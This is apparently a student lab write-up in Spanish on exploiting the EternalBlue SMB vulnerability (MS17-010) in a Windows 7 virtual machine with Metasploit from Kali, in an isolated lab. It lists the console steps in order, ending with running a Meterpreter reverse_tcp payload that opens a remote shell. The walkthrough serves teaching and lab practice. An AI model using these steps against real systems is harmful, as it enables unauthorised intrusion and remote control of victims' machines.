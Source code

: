 # SAD_2021--Vulnerabilidades---Metasploit

## Práctica del módulo de ***Seguridad y Alta Disponibilidad***

- Alumno: Fernando Páez Martín
- Curso: 2ºB - A.S.I.R.
- IES Punta del Verde

![alt Metalogo](Metasploit.png)

Haremos una busqueda de información sobre esta herramienta que permite ejecutar y desarrollar exploits contra sistemas objetivos. La primera opción antes de usar la propia herramienta va a consistir en recopilar información sobre el sistema objetivo. A partir de los datos obtenidos, se tomarán las decisiones acordes y los pasos a seguir en etapas posteriores.

- Descarga de las herramientas de Metasploitable y Máquina Virtual de Kali linux.
- Descarga de imagen iso de windows 7 para realizar el estudio de la vulnerabilidad y creacion de la máquina virtual.

## Recopilación de información

La tarea a desarrollar irá enfocada a la vulnerabilidad catalogada en la base de datos de vulnerabilidades CVE como:

[MS17-0144 - Eternalblue](https://www.cvedetails.com/cve/CVE-2017-0144/)

EternalBlue explota una vulnerabilidad en protocolo Server Message Block (SMB). Esta vulnerabilidad se dio porque el servidor SMB v1 (SMBv1) de Microsoft Windows manejaba mal paquetes especialmente diseñados por atacantes remotos, permitiendo ejecutar código sobre el equipo a que ataca.

## Configuración de las máquinas virtuales

Se configuran en un entorno llamado "Red Interna" y dentro del mismo rangode red:

- Kali con 10.0.2.10/8
- Windows con 10.0.2.11/8

## Ejecución de escaner de red Nmap

Con esta herramienta descubriremos puertos y servicios abiertos en la máquina objetivo.

## Metasploit Framework (MSF) 

En la primera fase ejecutaremos este framework para buscar exploits usar y deescargar payloads y ejecutarlos.

*msfconsole*



Usaremos su buscador para encontrar el exploit:

*search eternalblue*


De los resultados elegiremos la primera opción:

***0  exploit/windows/smb/ms17_010_eternalblue  MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption***

*use 0*

Nos duvuelve:

*No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp*


Vemos que parámetros son requeridos con el comando:
*options*


nos pide datos del equipo remoto o *RHOST*. Le indicamos la ip del equipo remoto 10.0.2.11


Podemos ver una serie de payloads a ejecutar:


Vamos a realizar la prueba con el siguiente *windows/x64/meterpreter/reverse_tcp*:




Le indicamos que se ejecute con *run*




Podemos ver las distintas opciones que nos ofrece este exploit con *options*
